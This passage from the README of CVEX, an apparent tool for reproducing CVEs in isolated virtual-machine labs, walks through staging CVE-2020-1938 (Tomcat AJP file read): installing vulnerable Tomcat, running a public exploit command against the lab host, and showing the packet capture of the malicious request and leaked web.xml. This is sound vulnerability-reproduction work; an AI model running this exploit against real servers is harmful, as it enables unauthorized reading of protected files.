TASK [Create tomcat user] *********************************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create installation directory for Tomcat] ***********************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Extract apache-tomcat-9.0.30.tar.gz] ****************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create symbolic link for Tomcat installation] *******************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Change ownership of the Tomcat directory] ***********************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Set environment variables for Tomcat] ***************************************************************************************************************************************************************
changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)

TASK [Create systemd service for Tomcat] ******************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Reload systemd daemon] ******************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Start and enable Apache Tomcat] *********************************************************************************************************************************************************************
changed: [ubuntu1]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   

```

Voilà, Apache Tomcat 9.0.30 has been installed on `ubuntu1`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
```

Next step is to run the exploit on `ubuntu2`. Let's use this exploit: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/. In the same manner, the Ansible playbook `ubuntu2.yml` was created to install the `CNVD-2020-10487-Tomcat-Ajp-lfi.py` exploit, and the file itself was put to the `data` folder. The updated tree of the CVEX record folder should look like this:
```
$ tree records/CVE-2020-1938

records/CVE-2020-1938
├── cvex.yml
├── data
│   ├── apache-tomcat-9.0.30.tar.gz
│   └── CNVD-2020-10487-Tomcat-Ajp-lfi.py
├── ubuntu1.yml
└── ubuntu2.yml
```

Now run the Ansible playbook on `ubuntu2` to see if it works:
```
$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini records/CVE-2020-1938/ubuntu2.yml 

PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***********************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu2 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu2]

TASK [Update apt package index] ***************************************************************************************************************************************************************************
ok: [ubuntu2]

TASK [Install packages] ***********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Create /opt/exploit] ********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] *********************************************************************************************************************************************
changed: [ubuntu2]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0 
```

Great, the exploit has been copied to `ubuntu2`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu1:
  playbook: ubuntu2.yml
```

Let's see if the exploit works as expected. Connect to `ubuntu2` over SSH, and then run the exploit (knowing that `192.168.56.3` is the IP address of `ubuntu1`):
```
vagrant@ubuntu2:~$ python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml

Getting resource at ajp13://192.168.56.3:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

Great, the vulnerability was exploited successfully: we were able to read a protected file! Now add the `command` parameter to the `ubuntu2` section of `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  command: "python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py %ubuntu1% -p 8009 -f WEB-INF/web.xml"
```

Before testing if the whole thing works, **delete** the `CVE-2020-1938/ubuntu1` and `CVE-2020-1938/ubuntu2` snapshots, otherwise CVEX will keep using them:
![Delete CVE-2020-1938/ubuntu1 snapshot](img/delete_CVE-2020-1938_ubuntu1.png)

Fire it all up:
```
~/CVEX$ cvex records/CVE-2020-1938

2024-10-23 15:46:56,016 - INFO - [router] Retrieving status of router...
2024-10-23 15:46:59,771 - INFO - [router] Retrieving snapshot list of router...
2024-10-23 15:47:02,330 - INFO - [router] Restoring VM router (192.168.56.2) to snapshot 'router'...
2024-10-23 15:47:32,103 - INFO - [ubuntu1] Looking for a VM with CVE-2020-1938/ubuntu1 snapshot...
2024-10-23 15:47:37,717 - INFO - [ubuntu1] Retrieving status of ubuntu1...
2024-10-23 15:47:42,577 - INFO - [ubuntu1] Retrieving snapshot list of ubuntu1...
2024-10-23 15:47:46,030 - INFO - [ubuntu1] Restoring VM ubuntu1 (192.168.56.3) to snapshot 'clean'...
2024-10-23 15:48:16,751 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 15:48:16,752 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 15:48:17,655 - INFO - [ubuntu1] 
2024-10-23 15:48:17,655 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:20,272 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:20,272 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:20,272 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:20,272 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:20,292 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:20,292 - INFO - [ubuntu1] 
2024-10-23 15:48:20,293 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:48:21,652 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:21,652 - INFO - [ubuntu1] 
2024-10-23 15:48:21,652 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,001 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:48:26,001 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:48:26,001 - INFO - [ubuntu1] 
2024-10-23 15:48:26,167 - INFO - [ubuntu1] Executing Ansible playbook records/CVE-2020-1938/ubuntu1.yml...
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***
2024-10-23 15:48:27,031 - INFO - [ubuntu1] 
2024-10-23 15:48:27,031 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 15:48:31,657 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:48:31,657 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 15:48:31,657 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 15:48:31,657 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:48:31,676 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:31,676 - INFO - [ubuntu1] 
2024-10-23 15:48:31,676 - INFO - [ubuntu1] TASK [Update apt cache] ********************************************************
2024-10-23 15:48:47,362 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:48:47,362 - INFO - [ubuntu1] 
2024-10-23 15:48:47,362 - INFO - [ubuntu1] TASK [Install dependencies (Java and utilities)] *******************************
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=curl)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=wget)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] ok: [ubuntu1] => (item=tar)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] changed: [ubuntu1] => (item=openjdk-11-jre-headless)
2024-10-23 15:49:30,767 - INFO - [ubuntu1] 
2024-10-23 15:49:30,767 - INFO - [ubuntu1] TASK [Create tomcat group] *****************************************************
2024-10-23 15:49:31,578 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:31,579 - INFO - [ubuntu1] 
2024-10-23 15:49:31,579 - INFO - [ubuntu1] TASK [Create tomcat user] ******************************************************
2024-10-23 15:49:32,595 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:32,595 - INFO - [ubuntu1] 
2024-10-23 15:49:32,596 - INFO - [ubuntu1] TASK [Create installation directory for Tomcat] ********************************
2024-10-23 15:49:33,554 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:33,554 - INFO - [ubuntu1] 
2024-10-23 15:49:33,555 - INFO - [ubuntu1] TASK [Extract apache-tomcat-9.0.30.tar.gz] *************************************
2024-10-23 15:49:36,535 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:36,535 - INFO - [ubuntu1] 
2024-10-23 15:49:36,535 - INFO - [ubuntu1] TASK [Create symbolic link for Tomcat installation] ****************************
2024-10-23 15:49:37,443 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:37,444 - INFO - [ubuntu1] 
2024-10-23 15:49:37,444 - INFO - [ubuntu1] TASK [Change ownership of the Tomcat directory] ********************************
2024-10-23 15:49:38,256 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:38,256 - INFO - [ubuntu1] 
2024-10-23 15:49:38,256 - INFO - [ubuntu1] TASK [Set environment variables for Tomcat] ************************************
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)
2024-10-23 15:49:39,640 - INFO - [ubuntu1] 
2024-10-23 15:49:39,640 - INFO - [ubuntu1] TASK [Create systemd service for Tomcat] ***************************************
2024-10-23 15:49:41,117 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:41,117 - INFO - [ubuntu1] 
2024-10-23 15:49:41,117 - INFO - [ubuntu1] TASK [Reload systemd daemon] ***************************************************
2024-10-23 15:49:42,997 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 15:49:42,997 - INFO - [ubuntu1] 
2024-10-23 15:49:42,997 - INFO - [ubuntu1] TASK [Start and enable Apache Tomcat] ******************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:44,905 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 15:49:44,905 - INFO - [ubuntu1] ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:49:44,905 - INFO - [ubuntu1] 
2024-10-23 15:49:45,221 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 15:49:58,587 - INFO - [ubuntu2] Looking for a VM with CVE-2020-1938/ubuntu2 snapshot...
2024-10-23 15:50:04,497 - INFO - [ubuntu2] Retrieving status of ubuntu2...
2024-10-23 15:50:10,601 - INFO - [ubuntu2] Retrieving snapshot list of ubuntu2...
2024-10-23 15:50:14,227 - INFO - [ubuntu2] Restoring VM ubuntu2 (192.168.56.4) to snapshot 'clean'...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 15:50:49,252 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 15:50:50,121 - INFO - [ubuntu2] 
2024-10-23 15:50:50,121 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:50:54,287 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:50:54,287 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:50:54,287 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:50:54,287 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:50:54,321 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:50:54,321 - INFO - [ubuntu2] 
2024-10-23 15:50:54,321 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 15:50:55,731 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:55,732 - INFO - [ubuntu2] 
2024-10-23 15:50:55,732 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 15:50:59,811 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,812 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:50:59,812 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:50:59,812 - INFO - [ubuntu2] 
2024-10-23 15:50:59,941 - INFO - [ubuntu2] Executing Ansible playbook records/CVE-2020-1938/ubuntu2.yml...
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,716 - INFO - [ubuntu2] PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***
2024-10-23 15:51:00,716 - INFO - [ubuntu2] 
2024-10-23 15:51:00,717 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 15:51:03,202 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 15:51:03,202 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 15:51:03,203 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 15:51:03,203 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 15:51:03,203 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 15:51:03,222 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:03,223 - INFO - [ubuntu2] 
2024-10-23 15:51:03,223 - INFO - [ubuntu2] TASK [Update apt package index] ************************************************
2024-10-23 15:51:20,141 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 15:51:20,141 - INFO - [ubuntu2] 
2024-10-23 15:51:20,141 - INFO - [ubuntu2] TASK [Install packages] ********************************************************
2024-10-23 15:51:40,027 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,027 - INFO - [ubuntu2] 
2024-10-23 15:51:40,028 - INFO - [ubuntu2] TASK [Create /opt/exploit] *****************************************************
2024-10-23 15:51:40,762 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:40,762 - INFO - [ubuntu2] 
2024-10-23 15:51:40,762 - INFO - [ubuntu2] TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] ******************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 15:51:42,715 - INFO - [ubuntu2] 
2024-10-23 15:51:42,715 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 15:51:42,715 - INFO - [ubuntu2] ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 15:51:42,716 - INFO - [ubuntu2] 
2024-10-23 15:51:42,845 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 15:51:54,458 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 15:51:56,534 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:51:56,591 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:51:56,613 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:51:56,644 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 15:51:56,662 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:51:56,700 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:51:56,795 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 15:51:58,731 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:51:58,810 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:51:58,908 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 15:52:00,760 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:00,813 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:00,828 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:00,846 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:00,871 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:00,925 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:01,010 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 15:52:03,486 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:03,563 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:03,669 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 15:52:03,720 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 15:52:03,734 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:03,771 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 15:52:04,795 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 15:52:04,851 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 15:52:04,872 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 15:52:04,939 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 15:52:04,952 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 15:52:05,000 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 15:52:05,071 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 15:52:07,314 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 15:52:07,411 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 15:52:07,507 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 15:52:07,556 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 15:52:07,563 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 15:52:07,611 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 15:52:07,642 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 15:52:07,711 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 15:52:07,801 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 15:52:07,858 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 15:52:07,943 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 15:52:07,980 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 15:52:08,529 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 15:52:11,885 - INFO - [ubuntu2] Executing 'python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml'...
2024-10-23 15:52:12,358 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 15:52:17,358 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 15:52:17,457 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 15:52:17,465 - INFO - [router] Stopping VM router...
2024-10-23 15:52:31,702 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 15:52:59,091 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

Let's see if CVEX was able to catch network interaction of the exploit with the Tomcat:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

Indeed, we see the attacker `192.168.56.4` (`ubuntu2`) connecting to `192.168.56.3:8009` (`ubuntu1`):
```
16:15:12.002248 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 0
E..<.Q@.?.v...8...8....I,[d..........o.........
.
..........
16:15:12.003393 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 0
E..<..@.@.Id..8...8..I......,[d................
3{.-.
......
```

Then the attacker is sending the malicious request to read the protected `WEB-INF/web.xml` file:
```
16:15:12.020448 IP 192.168.56.4.49896 > 192.168.56.3.8009: tcp 398
E....S@.@.s...8...8....I,[d................
.
..3{.-.4......HTTP/1.1.../asdf...192.168.56.3.....192.168.56.3..P..	...
keep-alive...Accept-Language...en-US,en;q=0.5.....0...Accept-Encoding...gzip, deflate, sdch...Cache-Control..	max-age=0.....Mozilla...Upgrade-Insecure-Requests...1....	text/html.....192.168.56.3.
.!javax.servlet.include.request_uri.../.
..javax.servlet.include.path_info...WEB-INF/web.xml.
."javax.servlet.include.servlet_path.../..
```

Apache Tomcat replies with the content of the `WEB-INF/web.xml` file:
```
16:15:12.128822 IP 192.168.56.3.8009 > 192.168.56.4.49896: tcp 1235
E.....@.@.G...8...8..I.....a,[fX....b......
3{...
.cAB.....<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
.
```

Format of `cvex.yml`:
```
blueprint: ...   # Blueprint name from the "blueprints" folder
ports: ...       # HTTPS port(s) as integer or list of integers (optional; 443 by default)
...:             # Name of the VM as in the blueprint (optional)
  trace: ...     # Name of the process for API tracing (optional); for Windows: partial name of the process; for Linux: regular expression
  playbook: ...  # Ansible playbook (optional)
  command: ...   # Command or list of commands to execute on this VM (optional)
...:
  trace: ...
  playbook: ...
  command: ...
...
```

`command` is treated in a special way:
1. `%vm_name%` will be replaced with the IP address of the VM: `curl https://%ubuntu%:8080/` will turn into `curl https://192.168.56.3:8080/`
2. Optional `&` at the end of the command tells CVEX that it is non-blocking: for `curl https://%ubuntu%:8080/&` CVEX executes `curl https://192.168.56.3:8080/`, and then immediately executes next command without waiting for curl to finish execution
3. Optional `~~~` splits the command into two parts: 1) the command; 2) the message: for `curl https://%ubuntu%:8080/&~~~Downloaded` CVEX executes `curl https://192.168.56.3:8080/`, then waits until curl prints `Downloaded` to stdout, and then immediately executes next command without waiting for curl to finish execution

CVEX blueprints define minimal network deployments:
- Ubuntu host attacking Window host
- Window host attacking Ubuntu host
- Ubuntu host attacking multiple Windows hosts
- ...

The `ubuntu2204-ubuntu2204` blueprint that we used is stored in [blueprints/ubuntu2204-ubuntu2204/blueprint.yml](blueprints/ubuntu2204-ubuntu2204/blueprint.yml):
```
ubuntu1:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
ubuntu2:
  image: "bento/ubuntu-22.04"
  version: "202404.23.0"
  type: "linux"
```

Format of `blueprint.yml`:
```
...:             # Name of the VM
  image: ...     # Vagrant image
  version: ...   # Vagrant image version
  type: ...      # "windows" or "linux"
  playbook: ...  # Ansible playbook (optional)
...:
  image: ...
  version: ...
  type: ...
  playbook: ...
...
```

Contributors can provide additional blueprints.

## Contributions

To contribute a new CVEX record, create a pull request for a new subfolder inside [records](records) with the following infrastructure:
```
records/CVE-XXXX-YYYYY
├── cvex.yml
├── data
│   ├── file1.ext
│   ├── file2.ext
│   ├── file3.ext
│   ├── ...
│   └── fileN.ext
├── ansible_playbook1.yml
├── ansible_playbook2.yml
├── ansible_playbook3.yml
├── ...
└── ansible_playbookN.yml
```

Use Git LFS (Large File Storage) for big files.

To contribute a new blueprint, create a pull request for a new subfolder inside [blueprints](blueprints) with the following infrastructure:
```
blueprints/blueprint-name
├── blueprint.yml
└── ansible_playbook.yml
```

## Notes

Sometimes VM initialization takes longer than expected:
```
2024-09-13 14:03:41,858 - CRITICAL - [windows] VM windows timed out. Please wait until the VM is started and then re-start CVEX with the '-k' parameter.
```

In this case we need to wait until the VM is up and the OS is aready. For example, use the VirtualBox GUI. As soon as the OS fully loads, re-run CVEX with `-k`. With this parameter CVEX uses the VMs that are already running. Be mindful, `cvex -k` will also leave the VMs running (which is great for debugging).

</details>

## Manage VMs

CVEX executed with `-l` parameter shows the list of cached VMs:
```
$ cvex -l
2024-09-19 10:41:45,410 - INFO - [main] Cached VMs:
2024-09-19 10:41:45,410 - INFO - [main] router
2024-09-19 10:41:45,410 - INFO - [main] gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:41:45,411 - INFO - [main] bento_ubuntu-22.04/202404.23.0/1
```

CVEX executed with `-d` parameter destroys the specific VM and deletes all corresponding files in the `~/.cvex` folder:
```
$ cvex -d gusztavvargadr_windows-10/2202.0.2404/1
2024-09-19 10:45:57,769 - INFO - [stub] Destroying VM stub...
```

However, even though the VM disappears from the VirtialBox GUI, some remnants may remain in the `~/VirtualBox VMs` folder. Delete them manually.

`cvex -d all` destroys all VMs.

